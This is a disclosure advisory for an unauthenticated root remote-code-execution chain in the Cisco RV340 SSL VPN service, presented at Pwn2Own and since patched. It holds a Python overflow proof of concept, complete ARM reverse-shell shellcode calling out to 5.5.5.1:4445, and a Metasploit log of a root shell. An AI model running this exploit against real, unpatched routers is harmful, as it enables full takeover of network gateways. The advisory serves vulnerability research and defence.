



flashback\_connects (Cisco RV340 SSL VPN Unauthenticated Remote Code Execution as `root`)
===

***

* [Summary](#summary)
* [Vulnerability Details](#vulnerability-details)
  * [Introduction](#introduction)
  * [Stack based buffer overflow](#stack-based-buffer-overflow)
  * [Improper memory configuration](#improper-memory-configuration)
* [Exploitation](#exploitation)
  * [Shellcode](#shellcode)
  * [Exploit log](#exploit-log)

# Summary

This document describes a chain of vulnerabilities that were found by **Flashback Team: Pedro Ribeiro (@pedrib1337) && Radek Domanski (@RabbitPro)** and presented at [Zero Day Initiative](https://www.zerodayinitiative.com/) **Pwn2Own Austin 2021** competition in November 2021.

The vulnerabilities described in this document are present in the **Cisco RV340** ([RV340](https://www.cisco.com/c/en/us/products/routers/rv340-dual-gigabit-wan-vpn-router/index.html)), on firmware versions up to and including v1.0.03.24.

Cisco has released an updated firmware versions in [February 2022](https://www.cisco.com/c/en/us/support/docs/csa/cisco-sa-smb-mult-vuln-KA9PK6D.html) (v1.0.03.26) which fixes the vulnerability described in this advisory. Cisco added stack cookies, non executable stack, checks for buffer size and use safe variants of memory handling functions.

The default AnyConnect VPN configuration is exploitable by an unauthenticated attacker over the Wide Area Network (**WAN**) interface, who can achieve remote code execution as `root` on the RV340. The vulnerability exists in the SSL VPN module (`sslvpnd`).

The exploit chains two vulnerabilities to achieve code execution:

- Stack based buffer overflow
- Improper memory configuration (read-write-execute stack)

All code snippets in this advisory were obtained from files in firmware version v1.0.03.22. 

This vulnerability was first publicly presented at [OffensiveCon 2022](https://www.offensivecon.org/speakers/2022/radek-domanski-and-pedro-ribeiro.html). A companion [Metasploit module](TODO_MSF_LINK) was also released with this advisory that implements a full remote exploit.

These vulnerabilities are exploitable over the Internet as demonstrated in our YouTube video, [Rice for Pretzels: Attacking a Cisco VPN Gateway 9000 km Away](https://www.youtube.com/watch?v=O1uK_b1Tmts).

A copy of this advisory is kept at [Radek's GitHub repo](https://github.com/rdomanski/Exploits_and_Advisories/blob/master/advisories/Pwn2Own/Austin2021/flashback_connects/flashback_connects.md) and also at [Pedro's GitHub repo](https://github.com/pedrib/PoC/blob/master/advisories/Pwn2Own/Austin_2021/flashback_connects/flashback_connects.md).

# Vulnerability Details

## Introduction

Cisco RV340 is a VPN gateway which implements a few different VPN protocols. 

One of those is called "SSL VPN" (referred to as Cisco AnyConnect in [their documentation](https://www.cisco.com/c/en/us/support/docs/smb/routers/cisco-rv-series-small-business-routers/smb5535-anyconnect-licensing-for-the-rv340-series-routers.html)) which by default listens on TCP port 8443 on the WAN interface. A user can connect with the Cisco VPN client (AnyConnect) and establish a VPN tunnel with the router.



> Figure 1: Cisco AnyConnect VPN session establishment

The main binary, `sslvpnd`, is controlled by `/usr/bin/sslvpnd_monitor`, which constantly checks if `sslvpnd` is running and operational. If the binary is not running it is automatically restarted.

When a client connects to a `sslvpnd` service, it spawns new threads that handle the request. 

As part of that operation the `FUN_00053fe8` function (`connection_loop`) is invoked. This function creates 2 large buffers, 0x4000 each. 

```cpp
  char PACKET_IN [16384];
  char body_buf [16388];
```

They are used to hold a HTTP request headers and the HTTP body. At first, `PACKET_IN` buffer is initialized and the HTTP headers are read into it, up to 0x4000 bytes:

```cpp
memset(PACKET_IN,0,0x4000);
     /* This first reads only a HTTP header, without body */
num_bytes_read = nonblocking_ssl_read(param_1,PACKET_IN,0x4000);
```

Next, a function checks how large is the HTTP header part.  It stores the result in `num_bytes_read` local variable and returns a pointer to the end of the header:

```cpp
iVar3 = find_end_of_hdrs(PACKET_IN,num_bytes_read);
```

If request has a body, it will be read as a next step. It reads up to 0x4000 bytes so fits perfectly into allocated space.

```cpp
if ((int)num_bytes_read < HTTP_hdr_size + Content_len_val) {
 memset(body_buf,0,0x4000);
 (...)
 num_bytes_read = nonblocking_ssl_read(param_1,body_buf,0x4000);
```

At this point, HTTP headers and body was read into corresponding buffers.



> Figure 2: `PACKET_IN` and `BODY_BUF`

Next, a `strncat` function is called, which moves buffers together into 1 contiguous space. The size argument will not exceed 0x4000 as that is constrained by a `nonblocking_ssl_read` reads. 

```cpp
strncat(PACKET_IN,body_buf,num_bytes_read);
```

So if entire 0x4000 bytes have been sent the situation gets interesting. As we already had data in `PACKET_IN` buffer, it gets concatenated with a body packets, effectively overflowing buffer boundaries.


> Figure 3: Body overflow

An obvious question arises, can we continue like this and overflow `BODY_BUF`? 

Unfortunately it seems that it is not possible. If we send more data, `BODY_BUF` will first be cleared with null bytes and then new data will be read. That means that every time `strncpy()` function is called, we are concatenating a max `0x4000` bytes to, in worse case scenario, end of the `PACKET_IN` buffer. But `BODY_BUF` is large enough to hold this data, so no overflow occurs.

When all data has been read, the buffer is inserted to a special queue for further processing. One of the functions responsible for it is `FUN_0004abbc` (`sslserver_recv_data_notify_msg_insert`). **And this is where the vulnerability is.**

## Stack based buffer overflow

`sslserver_recv_data_notify_msg_insert` is called from the `connection_loop` function with 2 parameters which are important here:

* `PACKET_IN`: this is the buffer that an attacker controls content of
* `num_bytes_read`: total number of bytes read. Attacker can also control this parameter.

```cpp
sslserver_recv_data_notify_msg_insert(param_1,PACKET_IN,num_bytes_read & 0xffff,uVar6);
```

The `sslserver_recv_data_notify_msg_insert` function implements a following stack:

```cpp
  pthread_t pVar1;
  int iVar2;
  undefined4 uVar3;
  undefined4 uStack16432;
  undefined4 local_402c;
  undefined auStack16424 [16384]; // <- vulnerable buffer
  undefined2 uStack40;
  undefined4 uStack36;
```

There is a large buffer on the stack that has been designed to hold a maximum of 0x4000 bytes. Further down the function execution, there is a `memcpy()` function that copies data into this buffer.

```cpp
memcpy(auStack16424,PACKET_IN,num_bytes_read);
```

This implementation doesn't take into account that the data in the `PACKET_IN` buffer can be up to 0x8000 bytes long, due to the previously mentioned `strncat()` function that joins those two 0x4000 buffers. Therefore, when a large packet is sent, we can overflow the stack buffer and overwrite the return address. 


> Figure 4: Stack overflow

```python
FILLER = b'\x04' * (16400)
PC = b"\xcc\xcc\xcc\xcc\x00"
url = "https://%s:8443/" % TARGET

payload = FILLER + PC
r = requests.post(url, data=payload, verify=False)
```

```bash
[New Thread 30958.313]

Thread 10 "sslvpnd" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 30958.313]
0xcccccccc in ?? ()
(gdb) info registers 
r0             0x0                 0
r1             0x81                129
r2             0x1                 1
r3             0x1                 1
r4             0x4040404           67372036
r5             0x4040404           67372036
r6             0xcccccccc          3435973836
r7             0x4040404           67372036
r8             0x4040404           67372036
r9             0x4040404           67372036
r10            0x4040404           67372036
r11            0x18f89c            1636508
r12            0x0                 0
sp             0x704aebe8          0x704aebe8
lr             0x1                 1
pc             0xcccccccc          0xcccccccc
cpsr           0x600f0010          1611595792
(gdb) 
```

## Improper memory configuration

Although there is a stack overflow vulnerability, our controlled buffer is created with `strncat()`. It's possible to inject a terminating NULL byte that will be picked-up by the `$pc` giving an attacker control over the execution of the program. However, usage of `strncat()` means NULL bytes can not be present within the buffer which significantly complicates ROP chain construction. 

The data and text segments of the `sslvpnd` binary are mapped into a memory section that requires NULL bytes in the address.

```bash
00010000-00172000 r-xp 00000000 00:0d 2279       /usr/bin/sslvpnd
00181000-00195000 rw-p 00161000 00:0d 2279       /usr/bin/sslvpnd
```

All shared libraries are randomized. That means an information leak vulnerability would be needed for us to know the library function addresses reliably.

We also didn't find any useful parts of code that could give us remote code execution right away (with a single ROP instruction).

However, the binary maps stack addresses with read-write-execute **RWX** permissions!

```bash
01099000-01151000 rw-p 00000000 00:00 0          [heap]
6fcb8000-6fcb9000 ---p 00000000 00:00 0 
6fcb9000-704b8000 rwxp 00000000 00:00 0          [stack:2961]
```

That means all that is required to gain arbitrary code execution is to place shellcode on the stack and jump to it. 



> Figure 5: Shellcode

As we control the content of the `PACKET_IN`, that seems to be a perfect candidate to place a shellcode. From our observation it seems stack addresses are very lightly randomized due to the use of threads being used.
Strangely, it seems that our buffer address remains constant, as part of the stack is not always randomised, while some other parts are. Although this is fantastic for exploitation, we're baffled by this and have no idea why it happens. Any comments on this are welcome!

# Exploitation

## Shellcode

Our shellcode is a TCP reverse shell to 5.5.5.1:4445 using an `execve()` syscall with no null bytes.
The shellcode starts with `dsb` and `isb` instructions that should deal with D-cache and I-cache flush on ARMv7. This is necessary to ensure the CPU can see our shellcode on the stack after we take control of the execution. Afterwards the shellcode switches to thumb mode, which allows us to write a more compact and easily null free shellcode.

When constructing shellcode, we have to keep in mind that it is processed by `strncat()`. Therefore, it can not contain any null bytes. That's why the command string is terminated with an "X" character, which is then replaced with a null byte in the instruction `strb r2, [r0, #7]`.  

```nasm
// Taken from Azeria's website and slightly modified
.global _start
_start:
 .ARM
// Clear cache
 dsb
 isb
 add   r3, pc, #1       // switch to thumb mode
 bx    r3

.THUMB
// socket(2, 1, 0)
 mov   r0, #2
 mov   r1, #1
 sub   r2, r2
 mov   r7, #200
 add   r7, #81          // r7 = 281 (socket)
 svc   #1               // r0 = resultant sockfd
 mov   r4, r0           // save sockfd in r4

// connect(r0, &sockaddr, 16)
 adr   r1, struct       // pointer to address, port
 strb  r2, [r1, #1]     // write 0 for AF_INET
 mov   r2, #16
 add   r7, #2           // r7 = 283 (connect)
 svc   #1

// dup2(sockfd, 0)
 mov   r7, #63          // r7 = 63 (dup2)
 mov   r0, r4           // r4 is the saved sockfd
 sub   r1, r1           // r1 = 0 (stdin)
 svc   #1
// dup2(sockfd, 1)
 mov   r0, r4           // r4 is the saved sockfd
 mov   r1, #1           // r1 = 1 (stdout)
 svc   #1
// dup2(sockfd, 2)
 mov   r0, r4           // r4 is the saved sockfd
 mov   r1, #2           // r1 = 2 (stderr)
 svc   #1

// execve("/bin/sh", 0, 0)
 adr   r0, binsh
 sub   r2, r2
 sub   r1, r1
 strb  r2, [r0, #7]
 push  {r0, r2}
 mov   r1, sp
 cpy   r2, r1
 mov   r7, #11          // r7 = 11 (execve)
 svc   #1

 eor  r7, r7, r7

struct:
.ascii "\x02\xff"       // AF_INET 0xff will be NULLed
.ascii "\x11\x5d"       // port number 4445
.byte 5,5,5,1           // IP Address
binsh:
.ascii "/bin/shX"
```

When the shellcode executes it will create a TCP socket listening at `5.5.5.1:4445` and duplicate `stdin, stout, stderr` to that socket file descriptor. After receiving a connection, an `execve()` syscall is called that spawns a `/bin/sh` (`busybox sh`) and we can enjoy our beautiful `root` shell!

## Exploit log

```
msf6 exploit(linux/misc/cisco_rv340_sslvpn) > check
[*] 5.55.55.62:8443 - The service is running, but could not be validated.
msf6 exploit(linux/misc/cisco_rv340_sslvpn) > exploit

[*] Started reverse TCP handler on 5.55.55.1:4445
[*] 5.55.55.62:8443 - 5.55.55.62:8443 - Pwning Cisco RV340 Firmware Version <= 1.0.03.24
[*] Command shell session 30 opened (5.55.55.1:4445 -> 5.55.55.62:41976 ) at 2022-02-10 20:12:18 +0000

id
uid=0(root) gid=0(root)
uname -a
Linux router138486 4.1.8 #2 SMP Fri Oct 22 09:50:26 IST 2021 armv7l GNU/Linux
```

Have fun and PWN!

~ Flashback Team
